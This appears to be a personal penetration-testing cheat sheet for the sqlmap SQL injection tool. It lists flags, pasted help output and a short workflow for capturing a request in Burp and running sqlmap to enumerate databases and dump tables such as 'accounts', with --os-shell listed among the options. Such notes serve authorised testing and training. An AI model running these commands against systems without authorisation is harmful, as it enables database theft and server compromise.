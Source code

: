 
preinstalled on kali
https://github.com/sqlmapproject/sqlmap



`--dbs` - Returns databases
`-D databaseName --tables` - returns tables from the specified database
`-D databaseName -T tableName --dump` - dumps that table
`--technique=B`
`--dbms=mysql`

### Examples

`sqlmap -r request --dbs` list all dbs, auto find db type



`sqlmap -r request.txt --technique=B --level=5 --risk=3 --dbms=mysql --dbs`

### Help

```sh
┌──(kali㉿kali)-[~]
└─$ sqlmap ~/request.txt -h
        ___
       __H__                                                                                                                
 ___ ___[']_____ ___ ___  {1.7.8#stable}                                                                                    
|_ -| . [(]     | .'| . |                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                

Usage: python3 sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program´s version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'

```

###### useful commands

confirm an sqli vuln using burp repeater first

copy request to a text file and add a `*` at the vuln spot

or you can use `-p <fieldname>`

at prompt:

`sqlmap -r request.txt`

`sqlmap -r request.txt --batch`

`sqlmap -r request.txt --batch --dump`
Might not be a good idea on a real db as it might save credit card nos or whatever sensitive data. First check for tables...

`--tables` gets the tables

`--batch` is only if we want it to answer the questions

specific table
`sqlmap -r request.txt --batch -T accounts --dump`

hacktrix:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap




